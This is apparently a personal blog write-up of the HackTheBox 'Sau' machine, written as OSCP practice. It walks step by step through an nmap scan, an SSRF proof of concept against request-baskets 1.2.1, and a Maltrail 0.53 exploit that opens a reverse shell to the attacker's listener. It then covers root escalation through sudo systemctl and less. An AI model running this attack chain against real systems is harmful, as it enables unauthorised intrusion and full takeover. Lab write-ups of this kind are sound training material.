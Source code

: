 +++
title = 'HackTheBox - Sau box write-up'
date = 2024-12-25T22:51:45+01:00
slug = "hackthebox-sau-writeup"
+++

![Sau Machine Image](/sau.png)

## Intro
---

It's far too early in my journey, I suppose; there’s a lot to learn before that, since I don't know many of these things. But I've been looking into what’s needed to prepare for the OSCP eventually and if there are any labs that provide decent experience resembling the OSCP exam. I came across a repo by [Rana Khalil](https://www.linkedin.com/in/ranakhalil1/), which led me to a great [spreadsheet of labs](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#) by TJ_Null. These labs are supposedly a good way to start building practical skills for OSCP (be sure to check the PWK V3 tab). This's one of many — let's work through this box together.


## Nmap
---

Scanning the target machine reveals a few open ports:

- 22/tcp - OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
- 80/tcp    filtered http
- 55555/tcp open     unknown

```
┌──(ognard㉿ognard)-[~]
└─$ nmap -sC -sV sau.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-25 20:24 CET
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.044s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 25 Dec 2024 19:25:20 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 25 Dec 2024 19:24:54 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 25 Dec 2024 19:24:54 GMT
|_    Content-Length: 0

...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.50 seconds
```

## Request-baskets CVE
---

As we can see from our Nmap scan, port 80 is filtered, meaning we can't access `http://sau.htb` in the browser.

However, if we access `http://sau.htb` on port 55555 in the browser, we find an application running, powered by `request-baskets` version 1.2.1.

To gain access to the filtered service on port 80, we’ll use an SSRF exploit for `request-baskets` version 1.2.1 ([CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163/blob/main/CVE-2023-27163.sh)):

```
┌──(ognard㉿ognard)-[~]
└─$ ./request-baskets.sh http://sau.htb:55555 http://sau.htb:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "vgagsl" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/vgagsl now makes the server request to http://sau.htb:80.
> Authorization: 7bxwJB7IJlxTDrCFkMpuTie-Td_n-jZKgGsoRHmeh9QG
```

This exploit allows us to access other services running on the target machine that only accept connections from localhost. It works by creating a malicious basket on the target's `request-basket` server. We’ll provide the `request-basket` server running on port 55555 as the first argument and specify the target service we want to access — in this case, the site running on the filtered port 80.


## Maltrail
---

Now that we have access to the site through the newly created basket from the previous exploit, we can see that the site is powered by the Maltrail (v0.53) service. A quick search reveals an existing [RCE exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) for this service, which we can utilize:

```
┌──(ognard㉿ognard)-[~]
└─$ python3 maltrail-0.53.py 10.10.14.24 4444 http://sau.htb:55555/vgagsl
Running exploit on http://sau.htb:55555/vgagsl/login
```

>  Keep in mind that you’ll need to have a running listener in another terminal on your local machine to establish a connection with the target machine.

And we're in:

```
┌──(ognard㉿ognard)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.11.224] 40704
$ whoami
puma
$ 
```

### Stabilize the Shell
---

To stabilize the shell, we’ll do the following:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Next, we'll press Ctrl+Z and run this:

```
stty raw -echo;fg
export TERM=xterm
```

## Privilege Escalation
---

We can already **read the user flag in the user's home directory**. Next, we need to escalate our privileges to root. We can use `sudo -l` to check if there’s anything that `puma` can run with root privileges:

```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

While there are instructions for abusing `systemctl` on [gtfobins](https://gtfobins.github.io/gtfobins/systemctl/), we can't do much with that in our case. However, what we can do for now is check the version of `systemctl` on this machine:

```
puma@sau:~$ /usr/bin/systemctl --version
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybrid
```

Maybe we can find a vulnerability for this version? After some searching, we come across CVE-2023–26604. When we run `sudo /usr/bin/systemctl status trail.service`, the status output is displayed in `less`. Since we’re running this command with root privileges, we’ve essentially opened `less` with root privileges as well. And since `less` can execute commands, we can use the `!sh` command to gain access to the root shell.

```
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Wed 2024-12-25 15:58:03 UTC; 4h 56min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 896 (python3)
      Tasks: 49 (limit: 4662)
     Memory: 339.0M
     CGroup: /system.slice/trail.service
             ├─  896 /usr/bin/python3 server.py
             ├─ 1150 /bin/sh -c logger -p auth.info -t "maltrail[896]" "Failed >
             ├─ 1151 /bin/sh -c logger -p auth.info -t "maltrail[896]" "Failed >
             ├─ 1154 sh
             ├─ 1155 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
             ├─ 1156 /bin/sh
             ├─ 1160 python3 -c import pty;pty.spawn("/bin/bash")
             ├─ 1161 /bin/bash
             ├─ 1175 /bin/sh -c logger -p auth.info -t "maltrail[896]" "Failed >
             ├─ 1176 /bin/sh -c logger -p auth.info -t "maltrail[896]" "Failed >
             ├─ 1179 sh
             ├─ 1180 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
             ├─ 1181 /bin/sh
             ├─ 1182 python3 -c import pty;pty.spawn("/bin/bash")
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

**Now we can read the root flag in /root/ directory.**

And... that's all! **Sau is down** — we’ve owned this easy and fun box!